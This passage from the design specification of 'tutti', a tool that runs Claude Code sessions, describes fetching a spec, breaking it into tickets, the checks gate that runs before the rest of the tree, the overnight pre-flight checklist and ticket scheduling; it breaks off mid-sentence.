- **GitHub.** A file page, `https://github.com/<owner>/<repo>/blob/<ref>/<path>` (or `/raw/`), is fetched as its raw file, `https://raw.githubusercontent.com/<owner>/<repo>/<ref>/<path>`; a gist page, `https://gist.github.com/<user>/<id>`, as its file's raw URL from `api.github.com/gists/<id>` when it holds one file, and refused otherwise (`… is a gist of 3 files: give the URL of its file's raw view.`). Any other URL is fetched as it is. A GitHub file whose raw fetch answers 404, maybe a private one, is read through the maintainer's own gh login, `gh api repos/<owner>/<repo>/contents/<path>?ref=<ref>` with the raw media type, through `effect/process`, within the same limits; gh's token never leaves gh, and gh is run for GitHub file URLs only. Without gh, or with gh not logged in: `The spec <url> (--spec) is private or missing; if it is private, log gh in (gh auth login) and run again.` (`install gh … log it in` without it). A ref with a slash is taken whole for the raw file, and as its first segment for gh.
- **What tutti sends where.** The GET to the URL's host and those its redirects name, over https; for a gist, a GET to `api.github.com`; for a private GitHub file, gh's request to GitHub's API, under the maintainer's login. Nothing else of the run goes with them: no token, cookie or header of tutti's.
- **The text** is checked as a file's is: not text (a NUL, or not UTF-8) and empty refused. A web page where a spec was expected, a `text/html` answer or text starting `<!doctype html` or `<html`, is refused: `The spec <url> (--spec) gave a web page, not a spec: give the URL of the raw file.` A fetch that fails is a setup problem saying why: `Cannot fetch the spec <url> (--spec): HTTP 404 Not Found.`, `took more than 30s`, `is more than 5 MB`, `redirected to <host> over http`, `redirected more than 5 times`, or a DNS or TLS failure in its own words (`getaddrinfo ENOTFOUND …`, `certificate has expired (CERT_HAS_EXPIRED)`).
- **Its copy** is `.tutti/specs/<name>`, named after the URL's last path segment, decoded and made a safe file name (letters, digits, `.`, `_` and `-`, no leading dot, at most 100 characters), `.md` added unless it ends in `.md`, `.markdown` or `.txt`; a URL with nothing of a name is refused (`… names no file: give the URL of the spec's raw file.`). Its commits record `Spec-Source: <url>`, the URL without its query and fragment, which may hold a token; problems, the log and the START line show it so too. A copy of that name recording another source, a file or another URL, is the setup problem a file of the same name from another folder is, naming both. Each run fetches it again: the same text (the same SHA-256) is committed already, and changed text is committed as an update, carried on as any spec's update is.
- **Shown.** The URL and the text are sanitised wherever shown (§7.10). The `START` line's scope is `spec .tutti/specs/shop.md from https://…`, and the start record has `spec_source` beside `spec` (§10).

**The root epic and what to do.** The spec's issues are `bd list --metadata-field spec=<path> --all`; its root epic is the epic among them whose parent isn't one of them. Its `spec_sha256` and `spec_commit` name the version of the spec its tree was filed for, set last of all, once the tree is filed and checked (`src/run/spec.ts`'s `specState`):

- **No root epic**: the breakdown files the tree.
- **The same SHA-256, and the root epic open**: no breakdown; the run carries on with the root epic, carrying over the workers the last run left: `the spec <path> is unchanged; carrying on with <root>`.
- **The same, and the root epic closed**: nothing to run, `✓ <path> is built (<root>)`, exit 0.
- **Another SHA-256**: the new version committed, the breakdown updates the tree for the change: `the spec <path> changed since <root> was filed: updating its tickets`. tutti writes `.tutti/run/spec-update.md` for it, the change as `git diff` of the spec from the root epic's `spec_commit` to the new commit (or why git can't give it, `SPEC: no diff of the change: <why>`), and the tree under the root epic, open and closed, an issue a line.
- **No `spec_sha256`**: the breakdown that filed the root epic didn't finish; it is carried on, filing only what is missing under that root epic, its first message listing what is filed: `the breakdown that filed <root> didn't finish: carrying it on`.
- **Two root epics**: a setup problem, exit 2, saying how to keep one (`bd update <b> --parent <a>`, or `bd update <b> --unset-metadata spec`). bd failing to list them is exit 4.

**The breakdown.** An SDK session in the main checkout, which AgentHost knows as `tutti-breakdown` (a refinement's and a feature's as `tutti-interview`, below and §4.10), of the Interview kind, whose setup is a breakdown's (its instructions, built-in tools, own tools, headless or not, effort), a question's talk's too (§4.11): orchestra's spec-breakdown instructions, adapted to tutti's tools, appended to the `claude_code` preset; the project's settings loaded, for CLAUDE.md and rules; no MCP server but tutti's own. Its tools are enforced as the interview's are (§4.10): `Read`, `Grep`, `Glob` and `Agent` (and `AskUserQuestion` with you there), and four of tutti's on its in-process server, allowed without asking (a PreToolUse hook): `tickets_list` and `ticket_show`, the interview's; `file_root`, which files the root epic and, where the spec needs one, the environment setup ticket under it (P0, `solo`), each with the spec's metadata; and `file_breakdown`, which takes the rest of the tree in one call. Headless, its permission mode is `dontAsk`: what isn't allowed already is denied, nobody being there to ask; the session checks leave its permission mode out of what they say of the workers'. It runs at `spec.effort` (`--spec-effort`, `TUTTI_SPEC_EFFORT`; `high` by default) and may take `spec.timeout` (`--spec-timeout`, `TUTTI_SPEC_TIMEOUT`; 60 minutes by default), after which its session is closed. Its first message names the spec, its SHA-256, its commit and its time limit, and for an update the root epic, the version its tree was filed for and `.tutti/run/spec-update.md`.

- **On purpose, departures from orchestra**, whose breakdown is a `claude -p` with Bash for `bd` and read-only `git`, answering with structured output: tutti's session has no shell, so it files through tutti's tools, as the interview does (tutti-sdk-native). The answer is checked as a whole before any of it is filed (`src/run/specTree.ts`'s `checkTree`, which reads any value and never throws): a key used twice or one that is an ID bd has, a parent or a `waits_for` naming no issue, a parent that isn't an epic or isn't the spec's, a missing or unknown title, type or priority, and a cycle among the parents and blocks links together, an epic waiting for a ticket under it or a ticket for its own epic among them (each issue's start and finish as two steps); a refused answer is the tool's error with every reason, and nothing is filed, so the session fixes it and calls again, rather than the run failing on it. The `human` label is dropped with a note: nobody answers a spec run's questions. A ticket's files may be new ones in new folders, a spec's tree starting from nothing (`checkFiles`' `newFolders`), and what isn't a path in the repository is dropped with a note. tutti then files each issue after its parent and the issues it waits for, its blocks links in the same `bd create`, so bd failing part way leaves every issue filed with all its links (`tutti filed 12 of its answer's 40 issues, then couldn't file <key> (<title>): <why>`); then an update's links, removed links, changes (`bd update` with the description, acceptance, priority and files merged into the metadata, and a note) and deferrals; then the answer's `note` and `assumptions` under `Assumptions` in the root epic's notes. A call after one that filed is refused. tutti, not the session, sets `spec_sha256` and `spec_commit`, once the tree is checked.
- **Its end.** It ends once `file_breakdown` has filed the tree (or said, with only a `problem`, that there is none) and the session's turn is over: tutti closes the session. A headless session whose turn ends without that is told once to hand the tree over, then given up on, as is one past its time limit. A turn that ends on the account's usage limit waits for the reset, as a worker's does (§4.12), headless or with you: its time limit paused meanwhile, the session is told to carry on at the reset plus a minute (`tutti: the account's usage limit has reset. Carry on with the spec's breakdown where you left off.`), or 15 minutes on where its reset has passed, and the log says `SPEC: the breakdown stopped at the account's usage limit; it waits for the reset at 14:05, in 58m, its time limit paused`, then `SPEC: the usage limit has reset; the breakdown carries on`. One whose reset is unknown, or later than `--usage-limit-wait`, is given up on, as a run with nothing else running ends USAGE_LIMIT (tutti-kkb.56).
- **On a terminal** a spinner counts what it files, `Breaking the spec down with Claude… (Ctrl+C stops)` with `1 epic · 3 tickets`, and ends `◆ Spec broken down: 1 epic, 3 tickets (58s)`; plain output and the log get `SPEC:` lines: `breaking <path> down with claude (effort high, time limit 1h)`, the root epic filed, every minute how far it has got, what the session spent once it ends (`breakdown $4.1234 in 212 turns, 14m02s, session <id>`, as orchestra logs it, from the turns' results as Spending sums them for its worker, or `claude session <id> gave no result (<took>)`, a stop included), what it filed from the answer and in how long, `broken down into <root> (1 epic, 3 tickets)` (`updated <root> for the change …`), and an `assumed:` line each. stdout says `broke the spec down into <root> (1 epic, 3 tickets)`, then `Assumed where the spec leaves a choice open:` and a line each.
- **Checked.** tutti then reads the tree as bd has it (`checkFiled`): a root epic that isn't an epic, or carries another spec's metadata, ends the run, `tutti won't run what the spec's breakdown filed: <why>`, exit 2; it warns (stderr, and `SPEC: warning:` in the log) of issues under it without the spec's metadata, the spec's issues outside it, which the run leaves out, open tickets without `files` metadata or acceptance criteria, and, as orchestra 0.9.5 does, a narrow tree: one whose open tickets' longest chain of blocks links is over three, or whose tickets over that chain (how many its links let run at a time on average) are fewer than the run's concurrency, or than its tickets where they are fewer, named with its chain and its hubs, the tickets three or more others wait on directly (`a narrow ticket tree, its longest chain over 3: shop-1: 4 tickets, longest chain 4 (1.1 > 1.2 > 1.3 > 1.4), at most 1 at a time. A ticket needs a blocks link only to one whose code it builds on, so that the rest run side by side`; src/plan/shape.ts). It then marks the root epic filed and the run starts on it, without asking.
- **Failing.** A session that doesn't start is exit 4; one given up on at the usage limit is exit 8 (`tutti couldn't break the spec down: it stopped at the account's usage limit, which resets at …, later than --usage-limit-wait (6h)`); one that fails, runs out of time or gives no tree is exit 2: `tutti couldn't break the spec down: <why>` (`tutti: the spec's breakdown filed no tree, so there is nothing to run.` and `It says: <why>`), what it filed, up to 20 issues (`It filed 1 epic and 0 tickets for <path>, under <root>:`, then `… and 9 more: bd list --metadata-field spec=<path> --all`), and `Run it again to carry on: tutti --spec <file>`. Ctrl+C stops it, exit 130: `tutti: stopped while the spec was broken down, with <root> filed.` and the same last line. What was filed stays filed, and the next run carries on from it.

**Starting early.** The environment ticket doesn't wait for the whole breakdown, as nothing else can start before it merges (orchestra-qd9e.1): once `file_root` has filed the root epic and that ticket, a headless breakdown of a new spec hands the run its root epic, `SPEC: the run starts on <id>, the environment ticket, while the breakdown files the rest of <root>` (`◆ Starting on <id>, the environment ticket, while the breakdown files the rest`), and goes on in the run's scope (`specRun`'s `Early`). The run starts on that ticket; its title line's banner says `breaking the spec down: 1 epic, 1 ticket filed` while it files, and the run doesn't end meanwhile (`runEnd.ts`'s `Look.filing`), a run whose environment ticket merged first waiting for the rest, which join it as bd lists them ready (each filed waiting for the environment ticket). With the dashboard, what the breakdown says once it is open is held for after it, as `--feature`'s is. A breakdown that fails or is stopped after that stops the run as Ctrl+C does, `QUIT because the spec's breakdown failed`, the workers' sessions saved for the next run, and the run's exit code is the breakdown's. The run's end stops a breakdown still going. With no environment ticket filed first, with `--refine`, for an update and for a breakdown carried on, the run starts once the breakdown is over.

**Refined with you.** `--refine` breaks the spec down with you in tutti's Interview view (§4.10), in the command's one renderer, not in a pane: the same session, as the interview's worker, with AskUserQuestion and the instructions' refine sections. New feature's interview is the same session again, in the instructions' feature mode (§4.10). A turn refused for the login once the tree is filed ends the breakdown as filed (tutti-1flm). It takes the spec as mostly settled and asks, in rounds, only where it leaves a decision open that changes what gets built; it sums up what it will file and files nothing until you agree, with the decisions settled under `Decisions` in the root epic's description (an update's in its note). Once it has filed the tree and its turn is over, the view goes, and the run starts on it without asking. Leaving the view asks `End the breakdown? Nothing has been filed.` while nothing is filed, and nothing once something is; left with nothing filed: `The refinement filed nothing; nothing to run.`, exit 0; with issues filed: `tutti: the refinement ended without filing the tree, so there is nothing to run.`, what was filed, and `Run it again to carry on: tutti --spec <file> --refine`, exit 2. Ctrl+C's quit box ends it with exit 130. Plain output, or no terminal, has no Interview view: once the spec is committed, `tutti couldn't break the spec down: refining the spec needs you at tutti's screen, in a terminal and without --plain: …`, exit 2.

**From an empty repository.** In a repository `tutti init` hasn't set up (no `.tutti/settings.json`, and no `--prompt` of its own), even one with no commit yet, a spec run sets it up itself before its startup checks, as `tutti init --no-checks` does (tutti-p1g2; `src/run/specSetup.ts`, `src/cli/commands.ts`'s `setUpForSpec`, `specInit`, `specFormFlags` and `specSetupFlags`), once it has read the spec, so that a spec it can't read sets nothing up, the checks saying why beside the setup that is missing. In a terminal (where init's form would be drawn, in its renderer or in lines) it puts init's form first, with the checks left out as `--no-checks` leaves them (tutti-g1wf): Beads and the ticket prefix, the concurrency (`-c`'s where it is given), the MCP servers, the verifier and `CHANGELOG.md merge=union`, then the login check; a cancel exits 130, having changed nothing, and the spec isn't committed. Without a terminal it asks nothing: bd init where Beads isn't set up, the worker prompt, the settings with `-c`'s concurrency where it is given, no MCP servers, runners that check nothing yet and the verifier, on as nobody is there to have said no; `CHANGELOG.md merge=union` and installing bd declined; no scout, skill or test work. `tutti init hasn't set this repository up: setting it up as tutti init --no-checks does, its checks left for the spec's environment ticket` and init's steps say it; the files its `git status` shows new are no clean-tree problem, and are committed with the spec, `tutti: set up for spec <name>`, the repository's first commit where bd made none: `committed the setup with the spec <path> as <12 hex> (6 files)`. A setup an earlier spec run wrote and stopped before committing (its `.tutti/settings.json` untracked) is taken again as it is, `the setup an earlier spec run wrote is uncommitted: it is committed with the spec`, its untracked files under `.tutti/` and the runners committed with the spec, rather than hold the run as uncommitted changes. The breakdown's environment ticket then fills in the requires list, the scaffold, the checks and the setup command, as the instructions ask, and the checks gate checks them once it merges. Outside a git repository the run says so, exit 2.

**The checks gate.** Every later merge of the tree relies on the runners the environment ticket wrote, so a setup that left `exit 0` behind, or wired a flaky suite, would go unnoticed for the whole run. When a spec run's environment ticket (the solo P0 ticket with the spec's metadata under the root epic, the one `file_root` files) has merged, in this run or closed and merged before it, and before the run starts or resumes any other ticket of the tree (the scheduler's `beforeStart`, beside the requires check, and before each look's resumes), the run checks the checks (`src/run/checksGate.ts`), not while a stop or the usage limit holds the run or it winds down, when the next run does; a quit stops it, and the next run runs it again. The environment ticket is the last such one filed, a spec update's own where it files one, which the gate waits for. The maintainer chose this (2026-10-29) over a ticket in the tree, which would be a model's opinion, a slot and a session, and over tutti writing the checks itself, as the worker knows the test tooling it built and the setup's own merge check runs what it wrote.

1. **Still empty**: where `scripts/check-fast.sh` or `scripts/check-full.sh` on the base's head still checks nothing (init's `runsNothing`: no command but `exit 0`), is missing, or the settings turn its check off (`null`), the tree is held. A check whose command isn't the runner is taken to check something.
2. **Run again**: check-fast runs twice more on the base's head, three runs in all with the merge's own, as init's rule for catching flaky tests has it, then check-full once. Each runs in a worktree of its own on no branch (`checks-gate-*` under the worktrees' folder, removed afterwards, and as the next run starts where a killed run left one), the setup command first, within its check's time limit counted awake; its whole output is kept in the main checkout's `.tutti/run/checks-gate-<check>-<n>-<of>.log`, and its `FLAKY:` warnings are said. A failure holds the tree as an empty runner does, the output's file named.
3. **Shown**: what each runner runs (`runnerCommands`), a `CHECKS_GATE: <runner> runs: …` line each. In a terminal, the gate asks in init's form (`src/run/gateForm.ts`), drawn in place of the dashboard (the screen's `form` slot, as a question's talk is drawn) under the title `checks gate`: `Keep these checks?`, with what each runner runs; Enter keeps them, and No opens `tutti checks`' step (§8.3). Without a terminal, the lines are all, and the run goes on.
4. The run then starts the rest of the tree: `CHECKS_GATE: passed on <base> at <sha> in <time>: check-fast three times with the merge's, check-full once; the rest of <root> starts`, and the root epic's `checks_gate` metadata records the fingerprint of the runners it passed (the SHA-256 of each check's command and script).

A hold in a terminal opens `tutti checks`' step at once, its title's line saying why (`The checks gate holds the spec's tree: <why>`). That step, and No in step 3, works in a worktree of the base's head of its own, under the run's lock, which the run holds already; what it changed there is committed, `tutti: set the checks`, and the base fast-forwarded to it, so the main checkout stays clean, the run taking the settings it changed as a merge's (`takeSettings`); the gate then checks the checks again from step 1. A form cancelled, a step refused or one that changed nothing keeps the checks as they are: a hold then goes on as without a terminal. Without one, a hold files a question for the maintainer, `Set the checks the spec's tree is checked with` (labelled `human`, `maintainer_only`, its options *Set the checks* and *Go on as they are*, the first recommended, and `checks_gate_spec` and `checks_gate` naming the spec and the runners it is for), which the tree's open tickets wait on, and stops the run: `CHECKS_HELD: the checks gate held the spec's tree: <why>; it waits on <id>: answer it once the checks are set (tutti checks), or to go on with them as they are`, exit 2. A question answered for runners as they still are lets the tree go on with them (`answered`); one still open for them holds it again without a terminal (`waiting`), and in one the gate's steps go on, the form opening. A hold with a gate question still open for the spec notes it there rather than file another, and the checks passing, or going on with an answered question's, closes those still open, as the tree's tickets wait on them.

It runs once per spec: a run carried on after it passed doesn't run it again, nor does a spec update whose environment ticket left the runners as they were (their fingerprint is the one the root epic records). It never runs in a run that isn't a spec run, nor in one whose tree has no environment ticket. While it runs it is the run's phase as the end-of-run full check is: Current's box says `checks gate: <command> · <time>` (`setting up the checks gate` during a setup), its time counted from the gate's start, and the load line names its memory `checks gate` (§7.2). Each step is a `CHECKS_GATE:` line; its end is a `checks_gate` record (§10) with what it ran, how long and the outcome; and the run's summary says how it went, `Checks gate: passed in 4m12s`.

**Named by its spec.** The `START` line's scope is `spec <path>` with `spec: epic <root>, broken down from: <path>` under it; the dashboard's title line and the summaries say `· spec <path>` where a `--ticket` run says `· ticket <id>`; the run lock's holder has `spec` (§9.2), rewritten with the root epic as its `scope` once the breakdown has filed it, and the event stream's `start` record has `spec`, with `scope` the root epic (§10). A spec run never asks the start question; the start question's Spec option starts one (§5 item 3).

---

## 5. The run loop

The loop's behaviour is orchestra's, described in `docs/running.md`, `docs/workers.md` and `docs/organs.md` of v0.7.7. Appendix A goes through it feature by feature. What the port must keep exactly:

1. **Startup checks** list every problem at once, with exit code 2: git, 2.38 or later (below), the repository, the main checkout, a clean tree, `bd`, the ticket `--ticket` names (one `bd` shows, not closed, not a question), the login probe (§4.13: a login, settings that parse, a trusted main checkout), the settings (`--feature` with `--limit 0` among their problems: it would file a plan and start none of it), the MCP names and the worker prompt. A repository `tutti init` hasn't set up (no `.tutti/settings.json`) says so first.
   - **git 2.38 or later.** tutti runs `git merge-tree --write-tree` (2.38), `git worktree list --porcelain -z` (2.36) and `git rev-parse --path-format=absolute` (2.31). Ubuntu 22.04's git 2.34.1 refuses `-z` with exit 129, which tutti would read as no repository; so the checks, `tutti init` and every command that finds the main checkout run `git --version` first, and an older git stops them: `git 2.34.1 is too old: tutti needs git 2.38 or later. Update git, then run tutti again.` A version tutti can't read is let through, to the git commands after it. orchestra lists worktrees without `-z` and states no minimum; tutti's is on purpose.
2. **The run lock** (§9.2), taken after the startup checks pass and held until exit.
   - **The overnight pre-flight** (`--overnight`, §8.2; `src/run/overnight.ts`; tutti-kkb.46), so that a run left going through the night doesn't stop at 1am on something that could have been settled at 11pm; orchestra 0.9.5's `--overnight` is the reference for what is wanted. It runs once the lock is held, before the run's services are made, so that a fix reaches those that read the configuration as they are built (the workers' permission mode, `concurrent`), and before the start record, which gives the run as its fixes left it. Each check passes, warns or fails: a failure is what would stop the run, or every merge, in the night; a warning what would slow the night, cost it tickets or leave something for the morning. In the checklist's order: a ticket limit, `--limit` (fails; fix: run without one); one ticket at a time, `concurrent` 1 (fails; fix: one for each 4 cores, 2 to 4, within `--machine-workers`, none offered under a cap of 2); a permission mode in effect that asks, `default` (fails; fix: start workers in `auto`, the login probe asked again which mode Claude Code then puts in effect, the fix making nothing where auto isn't available; `auto`, `acceptEdits` pass); Claude Code logged in (passes, with the account: the startup checks refuse to start without it); the account at its usage limit now, from the usage probe's one turn at the workers' model (§4.12; warns, saying when it resets and whether `--usage-limit-wait` runs out first); `--usage-limit-wait` under 5h (warns; fix: 6h); no ticket time limit (warns; fix: 2h); the machine kept awake, which `--overnight` does whatever `keep_awake` says (§8.2), so the check is only whether it can be (`keepAwakeCheck`): where tutti can't keep it awake, no `caffeinate` or `systemd-inhibit`, it warns to set it not to sleep; under `--overnight-free-disk` GB free where the worktrees go (fails; 20 by default, `0` not checked; free space it can't read warns); another run on the machine, by its repository, PID and workers (`--machine-workers`, §8.2; warns); a busy machine, a 1-minute load over 1.5 per core or memory pressure at warn or worse, naming the 3 processes using the most CPU, or memory (warns); a virtual machine holding over 4 GB, named as orchestra names them (`src/run/processes.ts`; warns); on battery, with its level and the lid's note (§5 item 16; warns); the worker prompt or verifier older than tutti's templates (§8.3; warns; fix: bring them up to date as `tutti init --update` does and commit that on the base, the run's workers then following the prompt committed, read again); how many tickets are ready and how many more wait only on open questions (warns with none ready and none waiting on questions, the run then ending at once; with none ready but some waiting on questions, it passes where a terminal puts them to you first, below, and warns without one); and last, being slow, the merge check on the base's head, run once in a worktree of its own, the setup first, within the merge check's time limit, its whole output in `.tutti/run/check-base.log` (fails where it fails there, saying what failed). The checklist is printed through the printer, `◆ Overnight pre-flight: 1 failed, 2 warnings, 8 passed` and a line a check (`✓`, `!`, `✗`), the organ line's spinner up while the usage probe and the merge check run, and the log keeps it, `overnight pre-flight: failed: --limit 10 is set: …`, with the fixes made. In a terminal (stdin and stdout both, without `--plain`) each fix is offered one by one, yes first, then, while a failed check is left without its fix, `Start the run anyway, with 1 check failed?`, no first; the fixes taken are made once every answer is in (`◆ Fixed: the run has no ticket limit`), so that a cancel (Ctrl+D, Ctrl+C) exits 130 having changed nothing. They are asked as lines below the checklist (`src/ui/plain/forms.ts`'s confirm), in both output modes: a departure on purpose from the start question's renderer, which opens later, inside the run's services the fixes must come before, and whose alternate screen would hide the checklist the questions are about. A failed check left refuses the run with exit 2: `tutti --overnight cannot start: 1 check failed. Fix what the checklist says, or start anyway with --force-overnight.`; `--force-overnight` starts it anyway, without asking, and says so (`overnight pre-flight: starting with 1 check failed (--force-overnight)`). Without a terminal nothing is asked or fixed: the checklist is printed plain, and a failed check left refuses the run unless forced. orchestra's pre-flight first brings the base up to its upstream; tutti's runs never fetch, so neither does this. **The open questions** (`src/run/overnightQuestions.ts`; tutti-kkb.51): `--auto-answer` leaves a question open before the run to the maintainer, and a `maintainer_only` one always, so the tickets they block would wait all night. Once the pre-flight has cleared the run, inside the run's services and before the start record, the nothing check and the first ticket, tutti puts to you the open questions in the run's scope, in bd human list's order: every open issue labelled `human`, or with `--ticket` one that blocks the ticket or a ticket under it, or is under it itself. Each is put one by one, `Open question 1 of 2 · tutti-9x` (` · only you can answer it` for a `maintainer_only` one, put the same way), its title, its description sanitised (§7.10), its options from the metadata (`questionOptions`, §4.11), the recommended one first and marked `(recommended)`, then Other, to type your own, and Leave open; a question without well-formed options has Other and Leave open alone. With a dashboard it is the answer form's choices in the start screens' layer, the command's renderer (`src/ui/OpenQuestion.tsx`, through `Form.tsx`'s `ask`): ↑ and ↓ choose, Enter confirms (on Other, it sends what is typed, and says to type something where nothing is), PgUp and PgDn scroll a long description, a click chooses; its lines are held for the main screen, printed once the renderer is gone, before the report. Its own screen rather than the answer form of the worker view (`AnswerForm.tsx`), which is drawn over the dashboard from the run's view, on purpose: no run is going yet. In plain output in a terminal it is asked as lines (`src/ui/plain/forms.ts`'s `openQuestion`), numbered, Enter alone taking the recommended one. An answer, the option's label or the text typed, is recorded with `Beads.respond` (bd human respond), which closes the question and frees what it blocked for the run; one bd can't record is said and left open. Then `◆ Answered 2 questions`, and those left open, or every one without a terminal (stdin and stdout both), nothing asked, in a checklist of their own: `◆ Overnight pre-flight: 1 question left open`, then `  ! tutti-9x (Which flag name?): tutti-5k waits on it. Answer it with bd human respond tutti-9x "<answer>"`. Esc or Ctrl+C (Ctrl+D as lines) exits 130 before the run starts, the answers already given kept: `tutti: stopped before the run started; the answer given is kept.` The log says each answered, `overnight pre-flight: answered tutti-9x (Which flag name?): --name`, and each left open, `overnight pre-flight: left open: tutti-9x (Which flag name?): tutti-5k waits on it`. orchestra's pre-flight puts them in a Claude Code session; tutti puts them in its own form, on purpose. Answering inside tutti during a run stays tutti-kkb.35. A night that sets a stuck ticket aside rather than holding the run is item 10 (tutti-kkb.52).
3. **The start question** (`Current tickets: N ready`, `Spec: build what a spec file describes` or `New feature`) when stdin and stdout are a TTY and no flag decides. **Spec** (tutti-kkb.54; `src/ui/SpecField.tsx`, `src/ui/FileBrowser.tsx`, `src/ui/specPath.ts`, `src/ui/specFiles.ts`), as orchestra's `docs/running.md` § Run describes it, a web URL accepted as well: it asks for the **Spec file** in a one-line field, a path typed or pasted, relative from the repository, `~` or `~/` for the home folder, in quotes, or a file dropped on the terminal with its spaces escaped by backslashes; or an `https://` URL. Tab completes folders and `.md`, `.markdown` and `.txt` files in the folder typed so far (hidden ones once a `.` is typed), filling in what the completions share and listing them under the field, ↓ or Ctrl+N going to the next and ↑ or Ctrl+P to the one before; nothing completes a URL. Ctrl+O opens a file browser drawn in tutti, over the question as the answer form is drawn over the dashboard, at the folder typed so far or else the repository: its folder in its top border, `..`, folders, then files, ten rows at a time (fewer on a short screen), dotfiles hidden and other files greyed with the note `.md, .markdown and .txt files only`, its keys inside it; ↑ and ↓ (k, j) move, ← (h, Backspace) goes up a folder, Enter or → opens a folder or chooses a file, putting its path in the field (from the repository, else from `~`), Esc closes it without leaving the question; a click on a row does what Enter on it does, the wheel scrolls; a folder it can't read it doesn't go into, saying `cannot open <folder>: <cause>`. Names are sanitised (§7.10). Enter goes on only once the path names a file of text with something in it, else says why under the field (`no such file: <path>`, `<path> is a folder`, `<path> isn't a file`, `<path> is empty`, `<path> doesn't look like text`, `cannot read <path>: <cause>`); a URL is fetched on Enter, through the run's one fetch (`fetchOnce`), `Fetching <host>…` with a spinner in the field's place, Esc stopping it, a failure saying the fetch's problem (§4.14) under the field, the URL kept. Then **Refine it with Claude first?**: **Run it as it is**, selected, runs the spec as `--spec` does, and **Refine it with Claude first** as `--spec --refine` does; Shift+Tab goes back a step, keeping what was typed. The spec is then read as the startup checks read `--spec`'s (`src/run/choose.ts`'s `readChosenSpec`), from `chosen at the start`: one git ignores, or inside `.git`, ends the run with exit 2, `tutti cannot run that spec: <problem>`, no start record written; else the run goes on as a spec run, the lock rewritten with the spec, the start record and the log naming it. Run as it is, the breakdown runs with the renderer open, so its organ lines are drawn there (`src/ui/OrganScreen.tsx`), unstyled, Ctrl+C stopping it (exit 130), and held for the main screen; a departure from `--spec`, whose breakdown draws them on the main screen before the renderer opens. Once the renderer has gone, tutti prints `Spec: <absolute path or URL>, run as it is` (or `, refined with Claude first`). As lines, the question reads the path or URL as a line with the same checks, no completion or browser, and runs it as it is: refining needs the renderer, as the feature interview does.
4. **Nothing to run**: the box, `✓ All done` or `○ Nothing ready to run` with each reason and its command, `DEFERRED_FREE`. No dashboard, exit 0.
5. **Scheduling**:
   - `bd ready` in scope, minus questions and `exclude_types`, in priority order
   - parents after their subtickets; held for blockers not merged; follow-ups (`discovered-from`) held until their source merges
   - a blocker closed where the run didn't see it close is not merged while git finds `tutti/<id>` off the base (commits the base lacks, changes it doesn't hold), or can't tell: `after <id> merges: closed but not merged (tutti/<id> is not on <base>)`, one `CLOSED_UNMERGED` warning; git asked once per blocker and base commit, again when its branch moves or goes; `WAITS_FOR_MERGE`, `DEFERRED_FREE` and the nothing-to-run box count it not merged the same way (before the run, git asked once per blocker, without the warning)
   - footprints, below
   - solo; no ticket twice; a ready poll every 30 s, with free slots filled at once
   - the run looks again at each wake (`src/run/wakes.ts`): the ready poll, a slot freed, a hold put on or lifted, an attention change, a screen command, a triage verdict, a drain request, and a merge-queue change a look can act on (`mergeWakes`, tutti-gr4z.9): a merge over, a stop, a hand-back under way or over, not a ticket put in line behind the others nor its turn into an empty merging, which free nothing to fill and settle nothing for the run's end, the worker's freed slot waking the run of its own. A look takes its reasons with the wake pending for them, so that no look follows it for nothing; a reason recorded after it keeps its wake
   - a worker resumed, its question answered or carried over from the last run, takes a slot as a dispatched ticket does, before any new ticket starts: only with a slot free, the run taking tickets (no hold, the machine under `--machine-workers`) and not winding down, and no solo ticket running or past its work, a solo one only with nothing else running; one with no slot waits, `Asked` or saved, for a later look (`<id>, carried over from the last run, waits for a free slot to be resumed`), and, as a ticket queued for a slot does, keeps the run from ending, its end-of-run box not shown, while the run would take it up: under a hold (`BLOCKED`, a stop) the box can show, and its `q` leaves it for the next run, as orchestra's carried workers come back through `bd ready` to a free slot
   - `--limit` counts the tickets this run starts (resumed and carried-over workers count toward nothing), with no limit unless it is given: a run without one ends `READY_EMPTY` or `DRAINED`, never `LIMIT_REACHED`, and its dispatch lines say `[n]` rather than `[n/limit]`; `BAD_TICKET_ID`

   Footprints are built from names, files metadata, folders and globs, and functions, resolved against `git ls-files`, with the check's own files left out and predicted files added. The check's own files are those the check commands name, and those the lines of the merge check's and the full check's scripts name, a command naming a tracked script from the repository's root (`scripts/check-fast.sh` running `scripts/check.sh`): one level deep, comment lines (`#`, `//`) naming nothing, read with the repository's files, a script that can't be read adding nothing; the worker's own check's script isn't read, as tickets change what it runs (`scripts/check-own.ts`). A ticket changing such a file holds no other back for it, while two running tickets changing it still warn `LIKELY_CONFLICT` and a rebase conflict in it is handed back as any is (`src/run/checkScripts.ts`; tutti-0vbd.1). A ticket's notes name nothing of its footprint; the files git merges by union are left out of every footprint, its worktree's changes and `tutti plan`'s; vendored paths are no ticket's (`src/run/vendored.ts`; tutti-9q87): a path `.gitattributes` gives `linguist-vendored` (as `git check-attr` reads it, so `repos/** linguist-vendored` holds every file under `repos/`), or one the settings' `vendored` globs match (§8.4), a subtree of another project's files, is dropped from a footprint wherever a ticket names it (its text or its files metadata, a folder or a glob under such a folder too) or the predictor answers it, and so makes no overlap, in a run and in `tutti plan`, while the files a ticket's branch or worktree changes are kept, and its source files' declarations aren't read; the START block names the globs, `vendored: repos/** (from .gitattributes)`, where there are any; a ticket with commits on `tutti/<id>` is footprinted from the files its branch changes, its files metadata and its area labels (`(from its branch)`), and the predictor isn't asked about it though its text names nothing; a file two footprints share holds them apart only when one is to change it (its files metadata lists it, its text names it, a document only in a sentence asking to change it, or its worktree changed it), and never when the settings' `queue.shared_files` (§8.4) name it, paths or globs matched as `checks.setup.files` are: such a file stays in both footprints, their worktrees both changing it still warn `LIKELY_CONFLICT`, a rebase conflict in it is handed back (`merge.resolve_conflicts`), and `tutti plan` links no tickets over it; union merging doesn't suit it, as it keeps both the old and the new version of a line changed in place; a path keeps its brackets and a `+` starting a name (`pages/[id].tsx`, `+page.svelte`); a file without an extension is named by its path (`scripts/release`), or by its base name capitalised or in backticks (`Makefile`, `` `tutti` ``), once `git ls-files` has listed the files; and a glob in the `files` metadata holds the files other tickets add where it matches, anchored at each folder it matched in, or, matching none yet, from the repository's root, a name with a `[` being that file or folder as well as the glob, as orchestra 0.9.0 has it. A run of `**`s in a glob counts as one, and a glob matches a path in time bounded by its parts and the path's, however many `**`s it has. A file's contents (up to 4 MB) are read only to place the functions a footprint names, and only for the pairs of footprints compared where one names a function: each file at most once a fill. A function is placed in a file its code mentions: only a code file (`src/run/codeText.ts`'s `codeExtensions`) mentions any, a document or a data file holding none, and its comments and string literals are left out first, by its family of syntax (`//` and `/* */` with `"…"`, `'…'` and `` `…` `` in the C-like languages, `#` with Python's, 